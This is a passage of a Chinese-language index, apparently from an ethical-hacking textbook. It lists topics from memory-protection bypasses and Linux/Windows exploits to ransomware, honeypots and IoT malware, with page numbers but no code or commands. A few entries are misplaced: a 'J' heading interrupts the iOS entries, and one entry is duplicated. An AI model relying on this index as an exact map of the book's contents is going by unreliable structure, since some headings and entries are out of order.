  - 常见平台, 163
  - 相关资源, 175
  - 类型, 161–163
- BugCrowd 平台, 164–171
  - API 设置与示例, 168–170
  - 工作原理概述, 164
  - 项目所有者 Web 界面, 164–170
  - 研究人员 Web 界面, 170–171
- 错误
  - DLL 侧加载, 378–379
  - 内存泄漏, 299–316
  - 类型混淆, 299
  - 使用后释放, 286, 299–303
- BuildUserAgentStringMobileHelper() 函数, 380
- Bus Pirate 工具, 517, 519
- 业务结构, 119
- Busybox 程序, 525, 530
- 绕过内存保护
  - ASLR 保护, 292–293, 299–316
  - DEP 保护, 293–299
  - /GS 保护, 285–286
  - SafeSEH 保护, 275–277
  - SEHOP 保护, 277–284
  - 栈保护, 238–240
- bypassuac 命令, 338
- 字节, 24

## C

- C 编程语言, 15–24
  - 基本结构, 15–22
  - 注释, 22
  - 使用 gcc 编译, 23–24
  - for 和 while 循环, 20–21
  - 函数, 16–17
  - if/else 结构, 22
  - main() 函数, 16
  - printf 命令, 18–19
  - 示例程序, 22–23
  - scanf 命令, 19
  - strcpy/strncpy 命令, 20
  - 变量, 17–18
- C++ 代码, 74–77
  - HexRaysCodeXplorer, 76–77
  - 编译后的特性, 74–75
  - 运行时类型信息, 76
  - 虚表, 75
- call 命令, 32, 200
- 调用约定
  - ARM 代码, 565–566
  - MIPS 代码, 566
- 能力成熟度模型 (CMM), 147
- SDR 捕获阶段, 92–94
- 夺旗赛 (CTF), 111, 116
- Carbon Black Response, 149
- cat 网络钓鱼, 138
- 类别元素, 392
- 德米恩·考基尔, 277
- CButton 创建, 316
- 蜂窝网络, 498
- CERT 协调中心, 160
- CERT.RSA 文件, 391
- CERT.SF 文件, 391
- 认证道德黑客 (CEH) 认证, 114
- 认证渗透测试人员 (GPEN) 考试, 114
- CFAA（计算机欺诈和滥用法案）, 10–11
- CFG（控制流守护）, 253, 289, 363
- 挑战哈希, 183
- char 变量, 17
- checkXSS 函数, 351–352
- 多米尼克·陈, 546
- 比尔·切斯威克, 465
- 首席信息安全官 (CISO), 13
- 芯片，嵌入式设备, 511
- Chrome 浏览器。*另见* Google Chrome
- 密码块链 (CBC), 358
- CISA（网络安全信息共享法案）, 12–13
- Cisco 设备诱饵模拟, 486
- Cisco 发现协议 (CDP) 数据包, 486
- classes.dex 文件, 391
- Cobalt Strike 软件, 136, 139
- 代码注释, 67–77
  - C++ 代码分析, 74–77
  - 使用 IDAscope 的 IDB, 67–73
- 丹尼·科恩, 25
- 弗雷德·科恩, 465
- Coldwind, Gynvael, 61
- 协作工具, 123
- 协作分析, 77–82
  - BinNavi 工具, 80–82
  - FIRST 插件, 78–80
  - IDA 插件, 77–78
- CollabREate 插件, 77
- 命令和控制 (C2) 阶段, 152–153, 336
- 命令行
  - 利用栈溢出, 209–212
  - 与诱饵系统交互, 486, 487
  - Shodan 搜索引擎, 503–504
- 命令
  - C 语言, 18–20
  - gdb 调试器, 35
  - Immunity Debugger, 257–258
  - Perl, 202–203, 209
  - PowerShell, 325–326
  - 用于执行的 WinRM, 194–195
  - 用于执行的 WMI, 191–194
  - *另见* 特定命令
- 注释
  - BinNavi 协作, 82
  - C 编程语言, 22
- 商业蜜罐, 480
- *Common Ground* 博客, 131
- 通用漏洞评分系统 (CVSS), 173
- 通用弱点评分系统 (CWSS), 173
- 通信协议, 499
- 通信
  - 漏洞赏金计划, 173
  - 紫队协作, 154
  - 红队演练, 132–134
- 编译器控制漏洞缓解, 290
- 编译器
  - gcc, 23–24
  - Windows, 254–256
- 编译过程, 23
- 复杂指令集计算 (CISC), 558
- 计算机应急响应小组 (CERT), 160
- 计算机欺诈和滥用法案 (CFAA), 10–11
- 计算机内存。*另见* 内存
- ConPot 蜜罐, 472–473
- 遏制, 128
- ContentType 标头, 356
- 控制流守护 (CFG), 253, 289, 363
- Cookie
  - 猜测值, 285
  - 堆元数据, 286
  - 填充甲骨文攻击, 359–361
  - 替换为自己的, 286


- 协调漏洞披露 (CVD), 160
- Corelan 团队, 266, 273
- 企业漏洞赏金计划, 161-162
- Cortex 工具, 155
- Cowrie 蜜罐, 473-475
- CPU，嵌入式系统, 511-513
- 崩溃分析, 57-60
- 崩溃 Windows 程序, 258-261
- 跨站脚本。参见 XSS
- CrowdRE 插件, 77
- CryptAcquireContextA 变量, 437-439
- 加密勒索软件, 417, 435-441
- CryptExportKey 函数, 436
- CryptGetKeyParam 函数, 437
- CryptGetRandom 函数, 437
- cryptid 值, 412, 413
- 加密函数
  - IDAscope 识别, 72-73
  - 勒索软件使用, 436, 440-441
  - 另请参阅 加密
- CryptReleaseContext 函数, 437
- CSecurityManager 虚函数表, 312
- CTF (夺旗赛) 活动, 111, 116
- CTF365.com 网站, 116
- CTFtime.org 网站, 116
- Cuckoo 沙箱, 83-84, 558
- 探究精神, 112
- Curl 命令, 169
- 自定义 Linux 漏洞利用, 217-222
  - 攻击向量, 219-220
  - 构建, 220-221
  - EIP 控制, 217-218
  - 偏移量确定, 218-219
  - 验证, 221-222
- CVE-2016-0041 Windows 漏洞, 379
- CVE-2017-0147 Windows 漏洞, 373
- CVE-2017-5638 Struts 漏洞, 354–356
- CVE-2017-9805 Struts 漏洞, 356–358
- “网络演习手册”（Mitre 公司）, 130
- 网络杀伤链框架, 135, 151–153
- 网络安全增强法 (CSEA), 12
- 网络法律，演进, 10–13
- 网络安全
  - 自动化, 154–155
  - 现状, 4–5
  - 框架, 146–147
  - 物联网与, 499–500
  - iOS 机制, 407–409
  - 法律, 10–13
- 网络安全信息共享法 (CISA), 12–13
- Cydia Impactor, 411

## D

- DAD 反编译器, 397–398
- 迪诺·戴佐维, 161
- 菊花链配置, 518–519
- Dalvik 可执行文件 (DEX) 格式
  - 分析, 393–395
  - 相关 Java 代码, 393, 394
  - 另请参阅 DEX 代码
- DarunGrim 工具, 365, 367
- 内存中的 .data 节, 26
- 数据电路终端设备 (DCE), 550
- 数据加密标准 (DES), 182
- 数据执行防护。参见 DEP
- 数据保护技术, 408
- 数据来源，威胁狩猎, 148
- 数据终端设备 (DTE), 550
- DataModel 节，Peach Pit, 50
- 设备数据手册, 551
- DB-9 连接器, 550, 554
- DDS 协议, 499
- 调试接口, 520–523
  - JTAG, 520–522
  - SWD, 522–523
- 调试器
  - 崩溃分析与, 57–60
  - 嵌入式设备, 520–523
  - !exploitable 扩展, 57–58
  - gdb 调试器, 34–37
  - Immunity Debugger, 256–258
  - OllyDbg, 281
  - WinDbg, 261, 305
  - Windows 8.0, 300
  - x64dbg, 85–87
- dec 命令, 32
- 欺骗, 465–493
  - 简史, 465–466
  - 开源蜜罐, 466–480
  - 关于蜜罐和欺骗的资源, 491–492
  - TrapX DeceptionGrid, 480–491
  - 另请参阅 蜜罐
- 欺骗令牌, 487, 488
- Deception Toolkit, 465
- 决策框架, 150–151
- decode 函数, 102, 103
- 反编译
  - DEX 代码, 395, 396–398
  - Java 代码, 395–396
- 诱饵系统, 485–486
- 解密
  - Apple Store 应用, 411–413
  - cookie 值, 360–361
- 投递阶段, 152
- DEP (数据执行防护)
  - 绕过, 293–299
  - 解释, 289–290
  - ProSSHD 例外, 263
  - ROP 利用, 263, 289
- 国防部指令 (DoDD), 128
- 国土安全部 (DHS), 117
- DES (数据加密标准), 182
- 桌面所有权, 430–433
- 检测机制, 153
- 待测设备 (DUT), 92
- DEX 代码
  - 分析, 393–395
  - 反编译, 395, 396–397
  - 反汇编, 398–399
  - 相关 Java 代码, 393, 394
- Dex2jar 项目, 394, 395
- Diaphora 工具, 365, 367
- 字典，Python, 42
- 差分过程。另请参阅 二进制差分
- 数字千年版权法 (DMCA), 11
- 数字版权管理 (DRM), 411
- Dionaea 蜜罐, 469–472
- 直接参数访问, 231–232
- 反汇编代码
  - 二进制差分工具, 365–371
  - DEX 文件反汇编, 398–399
  - 反汇编器, 365, 398–399
  - gdb 调试器, 36–37
- 分布式拒绝服务 (DDOS) 攻击, 507
- DLL (动态链接库), 364
  - 侧加载漏洞, 378–379
  - 与 SPI 的交互, 450
- dlopen() 函数, 245
- dlsym() 函数, 245
- DNS 重定向器, 136
- Docker 工具, 342, 354, 357, 359, 472
- 文档对象模型 (DOM), 348, 350–353
- 文档，红队评估, 133
- DOM (文档对象模型), 348, 350–353
- DOM 元素属性喷洒 (DEPS), 286
- double 变量, 17
- 双字 (DWORD), 24
- 下载
  - IDAscope 插件, 68
  - 补丁, 373–374
  - PowerSploit, 329
  - Python, 37
  - Responder, 183
- Dradis 报告工具, 124
- DREAD 分类方案, 135
- Droidbox, 405, 406–407
- 丢弃文件, 84
- 托马斯·杜利恩, 366
- 盲模糊测试工具, 48
- dumbdecrypted 工具, 412
- 转储管道重定向器, 136
- 全双工通信, 90
- dwFlags 参数, 379, 381
- 动态分析, 83–87
  - 使用 Cuckoo 沙箱实现自动化, 83–84
  - 与静态分析弥合差距, 84–85
  - 使用模拟, 541–547
  - 以硬件为基础, 536–540
  - 针对 IoT 恶意软件, 562–564
  - 实验室练习, 85–87
  - Labeless 插件, 85, 86, 87
  - 针对 Ransomlock 恶意软件, 419–422
  - 逆向工程, 83–87, 402
  - 另请参阅 静态分析
- 动态链接库。另请参阅 DLL
- /DYNAMICBASE 选项, 290, 292

## E

- 克里斯·伊格尔, 77
- EAX 寄存器, 306, 307–311
- EBP 寄存器, 199, 200, 260
- EBX 寄存器, 317
- echo 命令, 358
- 尼古拉斯·伊科诺穆, 365
- EDI 寄存器, 310, 312
- 布兰登·爱德华兹, 77
- EEPROM 访问, 519
- 阿尔伯特·爱因斯坦, 3
- EIP (扩展指令指针), 200, 217–218
  - 检查损坏, 202
  - 用于漏洞利用的控制, 206, 217–218, 264–265
  - 确定要覆盖的偏移量, 218–219
  - 首次机会异常, 260
  - 帧数据位置, 234
  - 函数调用过程与, 200–201
  - 本地缓冲区溢出漏洞利用与, 207–209
- Elasticsearch 工具, 475, 478
- 电子通信隐私法 (ECPA), 11
- 电子前哨基金会 (EFF), 112
- ELF 头, 559
- 嵌入式设备, 511–548
  - 调试接口, 520–523
  - 动态分析, 536–547
  - 固件模拟, 541, 543–545
  - 固件漏洞利用, 546–547
  - 处理架构, 511–513
  - 资源, 526–527, 547
  - 串行接口, 513–520
  - 漏洞静态分析, 529–536
  - 系统软件, 523–525
  - 更新包分析, 529–533
  - 固件升级, 539–540
  - 漏洞分析, 533–536
  - 另请参阅 物联网
- EMET (增强缓解体验工具包), 277, 289, 291
- 模拟
  - 攻击, 6–9
  - 嵌入式设备固件, 541, 543–545
  - IoT 威胁, 557–562, 568–571
- 模拟器
  - 黑盒, 405, 406–407
  - 固件, 541, 543–545
  - QEMU, 558, 560–562, 568–571
  - 在其中运行 APK, 399–402
- 编码命令, 325–326
- encodedcommand 选项, 322, 326
- 加密
  - ATM 磁盘, 462
  - cookie 值, 361
  - iOS 数据, 408
  - 勒索软件, 436, 440–441
- 字节序方法, 25
- 增强缓解体验工具包 (EMET), 277, 289, 291
- 内存中的环境/参数节, 27
- 环境
  - 黑盒模拟器, 405, 406–407
  - 硬件分析测试, 536–537
  - 沙箱, 408–409
  - XSS 设置, 342–343
  - 用户帐户控制, 338
- 尾声，函数, 201
- 根除, 128
- ESI 寄存器, 310, 312
- ESP 寄存器, 199, 200, 260
- 斯特凡·埃瑟, 412
- _EstablisherFrame 指针, 275
- ETERNALBLUE 漏洞, 435
- 道德黑客
  - 攻击模拟, 6–9
  - 解释, 5–6
  - 与红队操作相比, 128
  - 测试过程, 9–10
  - 与非道德黑客相比, 8–9
- 江藤博之, 238
- Ettercap 工具, 537–540
- 欧洲标准化委员会 (CEN), 446
- eventhandler 函数, 301, 304
- 事件，网页, 347
- 进化模糊测试。另请参阅 遗传模糊测试
- exception_handler 函数, 275
- EXCEPTION_REGISTRATION 记录, 273
- 异常
  - 首次机会, 260
  - 处理程序函数, 275, 276
  - SEH 机制, 273–274
- exec1() 函数, 247, 248
- ExecShield, 242, 251
- SDR 的执行阶段, 105–106
- ExecuteTransaction 函数, 377–378
- exit() 函数, 242, 244
- !exploitable 调试器扩展, 57–58, 60
- 漏洞利用阶段, 152
- Exploit-DB 仓库, 356
- 漏洞利用
  - 缓解类别, 290
  - 嵌入式设备, 529–548
  - 固件, 546–547
  - 格式字符串, 225–237
  - 本地缓冲区溢出, 207–216
  - PowerShell, 321–340
  - ProSSHD 服务器, 262–273
  - 返回 libc, 242–247
  - SEH 链, 274
  - 小缓冲区, 214–216
  - 栈溢出, 209–214
  - Web 应用, 341–362
  - 另请参阅 Linux 漏洞利用；Windows 漏洞利用
- 扩展指令指针。另请参阅 EIP


金融服务扩展。另请参见 XFS 外部评估，137

## F

- Facebook 漏洞赏金计划，163
- 假帧技术，238–239
- FCC ID，91–92
- 联邦通信委员会 (FCC)，91
- fgets() 函数，364, 371
- file 命令，390
- files
  - DEX 反汇编，398–399
  - Python 访问，42–44
  - 汇编结构，33–34
  - TrapX 分析，484
- FinalExceptionHandler 函数，277
- FindCrypt 插件，437
- FindXMLManagerPath() 函数，449
- Firebounty.com 注册表，171
- FireDrill 工具，155
- Firefox 浏览器
  - 开发者工具，348, 349
  - 填充预言攻击，359–361
  - XSS 攻击，343–344, 346, 348
- FIRMADYNE 工具，541–545
  - 固件仿真，543–545
  - 设置，541–543
- firmware
  - 仿真，543–545
  - 利用，546–547
  - 升级，539–540
- 固件修改工具包，530
- 首次机会异常，260
- FIRST 插件，78–80
- 标志，gcc，24
- flashrom 工具，519
- FLIRT 签名，85
- 浮点变量，17
- fmtstr 程序，232, 233
- for 循环，20–21
- ForeScout 工具，487
- form.reset() 状态更改，309
- 格式化函数，225–229
  - 常用符号，226
  - 正确与错误用法，227–228
  - 栈操作，228–229
- 格式化字符串漏洞利用，225–237
  - 格式化函数与，225–229
  - 从任意内存读取，229–232
- 格式化符号，226
- fprintf() 函数，225
- 帧，234
- 框架漏洞，354–358
  - Struts CVE-2017-5638 漏洞利用，354–356
  - Struts CVE-2017-9805 漏洞利用，356–358
- 弗拉特里克，伊万，299, 300, 302
- free() 函数，26
- FreeXFS 框架，448
- 频率信道，90
- 全面披露邮件列表，159
- 全双工通信，90
- 完整操作系统 (FOS) 诱饵，490
- 全面公开披露，159–160
- 完整系统仿真，571
- 厂商全面披露，158–159
- 函数注释，82
- functions
  - C 程序，16–17
  - Linux 格式，225–229
  - 调用过程，199–201
  - 包装器，68–69
  - 另请参见特定函数
- fuzzing，47–65
  - 崩溃分析，57–60
  - 说明，47
  - 生成，48, 54–60
  - 遗传，48–49, 61–63
  - 变异，48, 49–54
  - 相关资源，64–65

## G

- 小工具，294–295
- 加菲，洛朗，183
- gcc (GNU C 编译器)，23–24
- gdb 调试器，34–37
  - 命令，35
  - 确定帧信息，234–235
  - 反汇编，36–37
- GDBServer 工具，562
- 一般数据保护条例 (GDPR)，149
- 通用操作系统，525
- 通用寄存器，29
- 生成式模糊测试，48
  - 崩溃分析与，57–60
  - 实验练习，60
  - Peach 模糊测试器，54–60
- 通用漏洞利用代码，212–214
- 遗传模糊测试，48–49
  - AFL 模糊测试器，61–64
  - 实验练习，63–64
- getenv 实用程序，230, 233, 234, 249
- getName() 函数，371
- GETPC 例程，270
- GetProcAddress 函数，438
- gets() 函数，364, 371
- getsystem 模块，338
- GitHub 仓库，329, 336, 342
- 全球信息安全认证 (GIAC)，114
- 全局行注释，82
- GNU 汇编器 (gas)，30
- GNU C 编译器 (gcc)，23–24
- GNU Radio 伴侣，93
- gnuradio 软件，92–93
- Google Chrome
  - 安装，342
  - XSS 过滤器，344–345, 348, 350
- Google Play，402, 403
- Google 快速响应 (GRR)，149
- 政府漏洞赏金计划，162
- GPEN (认证渗透测试员) 考试，114
- 基于语法的模糊测试器，48
- 乔·格兰德，514
- 图形化差异比较，376, 380
- greeting() 函数，23, 259
- 组策略对象 (GPO)，322
- /GS 保护功能，256, 284–286
  - 说明，284–285
  - 绕过方法，285–286
- 守护页，287

## H

- Hack Me! 漏洞赏金计划，170–171
- 被入侵的函数，353
- 黑客宣言，112
- hacking
  - 未来，113
  - 无线电频率，89
  - 不道德的，8–9

另请参见道德黑客
- 《黑客揭秘》丛书，114
- HackRF 设备，90, 91
- 半双工通信，90
- 汉内尔，亚历山大，67
- hardware
  - 硬件断点，425–426
  - 动态分析，536–540
- 硬件抽象层 (HAL)，291
- 哈佛大学，117
- 哈希值，捕获密码，181–187
- !heap 命令，310
- HeapReAlloc 函数，303, 306
- heaps，26
  - 隔离，300, 304
  - 元数据 Cookie，286
  - 非可执行，241
  - 在 Windows 中保护，286–287
- 赫夫纳，克雷格，540
- “Hello, world!” 示例，38
- 十六进制值，314–316
- HexRaysCodeXplorer，76–77
- 高熵 ASLR，291
- 高交互蜜罐，466–467
- 高序字节 (HOB)，232, 233
- Hippocampe 威胁信息聚合工具，155
- 家庭自动化系统，507
- 蜜罐客户端，467
- honeynet.org 组，466
- honeypots，466–493
  - 商业，480
  - ConPot，472–473
  - Cowrie，473–475
  - 欺骗用途，466
  - 部署，468
  - Dionaea，469–472
  - 开源，468–480
  - 相关资源，491–492
  - T-Pot，475–480
  - TrapX，480–491
  - 类型，466–467
  - 虚拟机，468
- 蜜罐传感器，467
- 基于主机的入侵检测系统 (HIDS)，153
- 基于主机的入侵防御系统 (HIPS)，152, 462
- htmlspecialchars 函数，346

## I

- I2C 协议，519–520
- ICA/SCADA 仿真，472
- iconv 工具，326
- id 命令，201, 355
- IDA (交互式反汇编器)，67
  - 二进制差异比较插件，365–371
  - 代码注释，67–73, 85–87
  - 协作分析，77–82
  - 交叉引用功能，458
  - Dalvik 反汇编，393
  - 导入内存区域，87
  - IoT 恶意软件调试，567–571
  - 相关资源，88
  - 漏洞分析，534
- IDA Pro 工具，534, 567–571
- IDA 近邻浏览器，440
- IDA Sync 插件，77
- IDA Toolbag 插件，77
- IDAscope 插件，67–73
  - 加密识别，72–73
  - 功能列表，68
  - 用户界面示例，69
  - WinAPI 浏览选项卡，70
  - 工作流概述，68–70
  - YARA 扫描器表，71
- IDB 注释，67–73
- 身份服务引擎 (ISE)，487
- IDLE 用户界面，37
- IEEE 802.11 协议，498
- if/else 构造，22
- Immunity 调试器，256–258
  - 命令列表，257–258
  - 崩溃程序与，258–261
  - 使用方法，257
  - 插件，281
  - ROP 链生成，316–317
- inc 命令，32
- 事件响应 (IR) 计划，147–150
  - 数据源，148
  - 事件响应工具，149
  - IoT 设备与，549
  - 威胁狩猎，147–148
- 妥协指标 (IOC)，123, 145, 154, 455
- 工业控制系统 (ICS)，112, 502
- info 命令，235
- info frame 命令，235
- info functions 命令，37
- 信息属性列表 (info.plist) 文件，409
- 信息资源。另请参见资源
- 信息系统安全协会 (ISSA)，118
- 信息窃取，452
- InfraGard 组织，118
- 基础设施即代码 (IaC)，146
- 持续红队操作基础设施博客，136
- InitializeKeys 函数，439–440
- 注入攻击，343
- inspectrum 分析器，97–101
- 安装阶段，152
- 指令集架构 (ISA)，558
- 保险考量，119
- int 变量，17, 32–33
- 集成电路 (IC)，511
- 集成安全运营中心 (ISOC)，4
- Intel processors
  - 架构，28–29
  - 寄存器，29
- intent-filter 元素，392
- 交互式反汇编器。另请参见 IDA
- 交互式登录，190
- 内部评估，138–139
- 国际标准化组织 (ISO)，146
- 国际电信联盟 (ITU)，91
- Internet Explorer
  - 内存泄漏错误，299
  - PowerShell 利用与，322
  - XSS 过滤器，344
- Internet of Things (IoT)，497–510
  - 通信协议，499
  - 设备访问，549–551
  - 防黑客攻击，508
  - 相关资源，509, 574
  - 安全顾虑，499–500
  - Shodan 搜索引擎，500–505
  - 连接设备类型，497–498
  - 未经身份验证的访问，506–507
  - 无线协议，498–499
- Internet of Things (IoT) 恶意软件，549–574
  - 调试与逆向工程，567–574
  - 动态分析，562–564
  - 故障排除实验，551–557
  - 物理访问设备，549
  - 相关资源，574
  - 逆向工程，565–574
  - 威胁实验室设置，557–562
  - 蠕虫攻击形式，507–508
- 物联网扫描器，508
- Invoke-Expression 函数，327
- Invoke-WebRequest 函数，327
- iOS 平台，407–413
  - 应用程序，409
  - 启动过程安全，408
  - 加密与数据保护，408


### J

- 与恶意软件相关的实验室，410–413
- 沙箱环境，408–409
- 安全机制，407–409
- 物联网。另见 物联网
- IPA 存档，409
- iPhone 4s 越狱，410–411
- IR 手册，155
- ISO 安全框架，146
- 独立堆，300, 304
- IV 泵故障排除，551–557

- 越狱
  - 类别，411
  - iPhone 4s，410–411
- Java 存档 (JAR)，389
- Java 代码
  - 反编译，395–396
  - 与 DEX 代码相关，393, 394
- Java 虚拟机 (JVM)，395
- JavaScript
  - 异步，348
  - 错误跟踪，351–352
  - jQuery 库，348, 353
  - 在 Web 应用中的普及性，348
  - XSS 对的操作，352–353
- JavaScript 对象表示法 (JSON) 格式，406
- JD 反编译器，395
- JD-GUI，395, 396
- je 命令，32
- JEB 反编译器，396–397
- jmp 命令，32, 269
- jne 命令，32
- jnz 命令，32
- John the Ripper，186, 333
- 肯·约翰逊，287, 291
- 联合测试行动组 (JTAG)，520
- jQuery 库，348, 353
- JTAG 接口，520–522, 526
- JTAGulator 工具，514–515
- jz 命令，32

### K

- Kali Linux，19, 61, 503
- KANAL - 加密分析器，436
- 菲尔·卡茨，390
- KeePass 密码保管库，139
- 内核补丁和脚本，241–242
- 按键记录进程，454
- Kibana (ELK) 堆栈，475
- 杀伤链对策框架，153–154
- 乔克桑·科雷特，365
- 布赖恩·克雷布斯，453, 507

### L

- 无标签插件，85, 86, 87
- Python 标签，39–40
- 斯特凡·勒贝尔，277
- lea 命令，32
- 泄漏变量，314, 315
- 泄漏软件 (doxware)，418
- leave 语句，200
- 小于运算符 (<)，21
- 小于或等于运算符 (<=)，21
- LFH (低碎片堆)，286–287
- 责任考量，119
- Libsafe 库，237, 251
- 有限责任公司 (LLC)，119
- 格雷格·利纳雷斯，374, 378
- 链路本地多播名称解析 (LLMNR)，181–182
- 链接过程，23
- Linux 漏洞利用，199–252
  - 高级，225–252
  - 攻击向量，219–220
  - 缓冲区溢出与，201–207
  - 构建自定义，220–221
  - 绕过栈保护，238–240
  - 开发过程，216–222
  - EIP 控制过程，206, 217–218
  - 格式化字符串漏洞利用，225–237
  - 函数调用过程与，199–201
  - 本地缓冲区溢出漏洞利用，207–216
  - 针对的内存保护方案，237–251
  - 偏移量确定，218–219
  - 程序执行更改，234–237
  - 从任意内存读取，229–232
  - 关于的资源，223, 252
  - 返回 libc 漏洞利用，242–247
  - 小缓冲区漏洞利用，214–216
  - 栈溢出漏洞利用，209–214
  - 摘要回顾，222, 251
  - 验证自定义，221–222
  - 写入任意内存，232–234
- Linux 内存保护，237–251
  - ASLR 目标，242
  - 绕过栈，238–240
  - 内核补丁和脚本，241–242
  - Libsafe 库，237
  - 不可执行栈，241
  - 特权维持，247–251
  - 与返回 libc 漏洞利用，242–247
  - 栈粉碎保护，238
  - StackShield 和 StackGuard，237
  - 摘要列表，251
- Python 列表，41–42
- 利用本地工具，321–322
- LoadLibrary 函数，378, 438
- LoadLibraryEX 函数，379
- LoadManagerFunction()，449
- 本地缓冲区溢出漏洞利用，207–216
  - 组件，207–209
  - 小缓冲区与，214–216
  - 栈溢出与，209–214
- 本地行注释，82
- 本地安全机构子系统服务 (LSASS)，331–332
- 锁定型勒索软件，417, 419–435
- PowerShell 日志记录，322
- 逻辑分析仪，555–556
- 逻辑服务，449
- LogonID 信息，190
- LogonType 信息，190
- Logstash 工具，375
- 旁路列表，287
- 低碎片堆 (LFH)，286–287
- 低交互蜜罐，467
- 低序字节 (LOB)，232, 233
- lsusb 命令，555
- 德扬·卢坎，55
- 凯莉·拉姆，77

### M

- MAC 地址，537
- 机器语言，30
- 基于机器学习的工具，149
- 魔法字节，390
- main() 函数，16, 199, 369
- malloc() 函数，26
- 恶意软件
  - Android，402–407
  - ATM，443–463
  - 黑盒分析，405, 406–407
  - 物联网，549–574
  - iOS 相关实验室，410–413
  - 逆向工程，70
  - YARA 签名与，72
  - 另见 勒索软件
- 清单元素，392, 393
- MANIFEST.MF 文件，391
- 中间人 (MITM) 攻击，537
- 拉姆齊·马丁尼兹，163
- 麻省理工学院 (MIT)，117
- 主从架构，518–519
- 约翰·麦克马斯特，557
- 可测事件，133–134
- 媒体访问控制 (MAC) 地址，537
- 医疗设备故障排除，551–557
- 中交互蜜罐，467
- meet.c 程序，202–205
- memcpy 调用，306, 307, 312
- memmove 函数，310
- 内存，24–28
  - 任意，229–234
  - 缓冲区，27
  - 在内存中解码勒索软件，422–427
  - 使用示例，28
  - 解释，24
  - 从内存导入段，87
  - 泄漏，299–316
  - 指针，27–28
  - 程序，26–27
  - 保护，237–251, 275–287
  - 随机访问，24–25
  - 分段，25
  - 字符串，27
  - 写入数据，25
- 内存泄漏 bug，299–319
  - 断点，306–313
  - 描述，299–300
  - RVA ROP 链，316–319
  - 跟踪，303–313
  - 触发，300–303
  - 武器化，314–316
- 内存保护
  - Linux 方案作为，237–251
  - Windows 机制作为，275–287
  - 另见 Linux 内存保护；Windows 内存保护
- memset 函数，377–378
- META-INF 目录，391
- Metasploit
  - 使用构建漏洞利用，220–221
  - Meterpreter 回调处理程序，333–336, 382
  - 模式工具，218, 219, 267
  - Meterpreter 回调处理程序，333–336, 382
- 微控制器，512
- 微处理器，512
- Microsoft
  - 来自的补丁差异比较，375–378, 379–384
  - 从中获取/提取补丁，373–375
  - 补丁星期二更新周期，372–373
  - 漏洞披露，160, 372
  - 另见 Windows 系统
- Microsoft C/C++ 优化编译器和链接器，254
- Microsoft 目录服务器，373–374
- Microsoft 开发者网络 (MSDN)，70
- Microsoft Internet Explorer。另见 Internet Explorer
- XFS 中间件，448
- 查理·米勒，161
- 马克·米勒，160
- 马特·米勒，287, 291
- Mimikatz 工具
  - 通过 PowerShell 运行，330–333
  - 与 TrapX DeceptionGrid，490
- MIPS 架构，513, 558–559
  - 调用约定，566
  - 速查表参考，567
  - 系统调用重命名，572
- Mirai 蠕虫，507–508
- 缓解
  - 漏洞利用类别，290
  - Windows 10 中的改进，319
- Mitre ATT&CK 矩阵，135, 155
- mmap() 命令，242
- 移动应用程序，389–415
  - Android 平台，389–407
  - iOS 平台，407–413
  - 恶意软件分析，402–407
  - 关于的资源，413–414
  - 摘要回顾，413
- 模型-视图-控制器 (MVC) 架构，354
- 模块日志，322
- 克劳迪奥·莫莱塔，299, 319
- Mona 插件，266–267, 268, 295
- 埃里奇·蒙蒂，326
- mov 命令，31
- 零扩展移动指令，303
- MoviePlayer 应用程序，404–405
- MQTT 协议，499
  - 玩转的实验室，505–506
  - 安全顾虑，500
  - 未经过身份验证的访问，506–507
- MS16-009 补丁，379–380
- MS17-010 补丁，373
  - 二进制差异比较，375–378
  - 漏洞利用，379–384
- msfvenom 命令，220–221, 334, 382
- MT-7621A 处理器，517, 526–527
- 拉斐尔·马奇，136
- 变异模糊测试，48
  - 实验室练习，53–54
  - Peach 模糊测试器，49–54

### N

- NASM 汇编语法，30–33
- 国家标准与技术研究院 (NIST)，12
  - 计算机安全事件处理指南，147
  - 网络安全框架，146
- 国家安全局 (NSA)，117
- NeaBolsa 恶意软件，452, 454
- .NET, PowerShell 集成，321
- net localgroup 命令，193
- net localuser 命令，193
- net user 命令，193
- NetBIOS 名称服务 (NBNS)，182
- netcat 监听器，44, 420
- Netdata 页面视图，479
- NetNTLM 身份验证，182–183
- 网络访问控制 (NAC)，487
- 网络分析，84
- 网络入侵检测系统 (NIDS)，153
- 网络入侵防御系统 (NIPS)，153
- 网络登录，190
- 下一个 SEH (NSEH) 值，274
- 半字节，24
- NIST。另见 国家标准与技术研究院
- Nmap 命令，476
- 无操作系统设备，524–525
- 节点注释，82
- NOP 命令，207
- NOP 滑板，207
- --nosandbox 指令，344
- NTLM 身份验证，182–183
- Python 数字，40–41
- NYDFS 网络安全法规，13

### O

- 目标代码，23
- Objective-C 编程语言，409
- Python 对象，38–44
- 进攻性安全认证专家 (OSCP)，114


- 偏移寄存器, 29
- 偏移量
  - Linux EIP, 218–219
  - RVA, 314–316
  - Windows EIP, 266–267
- Oh, Jeong Wook, 365
- OllyDbg 调试器, 281
- OllySSEH 插件, 281
- onCreate 函数, 404
- OODA 循环, 150–151
- 操作码, 37
- 开源漏洞赏金计划, 162–163
- 开源蜜罐, 468–480
  - ConPot, 472–473
  - Cowrie, 473–475
  - Dionaea, 469–472
  - T-Pot, 475–480
- 开源情报 (OSINT), 7, 151
- 开源技术改进基金 (OSTIF), 162–163
- 开放 Web 应用安全项目 (OWASP), 135
- OpenOCD 工具, 520
- OpenXFS 头文件, 459
- 工作频率, 90
- 保镖行动, 465
- 操作风险降低, 119
- 优化, 紫队, 154–155
- 安全编排, 155
- 操作系统控制漏洞利用缓解, 290
- OSINT (开源情报), 7, 151
- osmocom 接收块, 105
- otool 实用程序, 412, 413
- OverTheWire.org 网站, 116, 117

## P

- 包元素, 392
- padbuster 工具, 360–361
- 填充甲板攻击, 358–361
  - 使用它修改数据, 359–361
  - 解释, 358–359
- 页表项 (PTE), 241
- PAGEEXEC 方法, 241
- Page-eXec (PaX) 补丁, 241, 242
- PageHeap 工具, 302
- PANDA 平台, 564
- PanDeBono 恶意软件, 452, 454
- 并行接口, 513
- paramiko 模块, 264
- Pasknel, Victor, 505, 507
- passwd 命令, 206
- 密码
  - 获取哈希值, 181–186
  - 使用 John the Ripper 破解, 186–187
  - 使用 Responder 获取, 185–187
- 补丁差异比对, 364–365
- PatchClean 脚本, 374
- patchdiff2 工具, 365, 367
- 补丁, 363–385
  - 二进制差异比对, 363–371, 378–384
  - 下载/提取, 373–375
  - 基于差异比对的利用, 378–384
  - 差异比对实验练习, 369–371, 375–378, 379–384
  - 管理流程, 373–378
  - Microsoft 更新与补丁, 372–375
- PaX (Page-eXec), 241, 242
- PatchExtract 脚本, 374
- 爱国者法案, 10, 12
- pattern_create 工具, 218
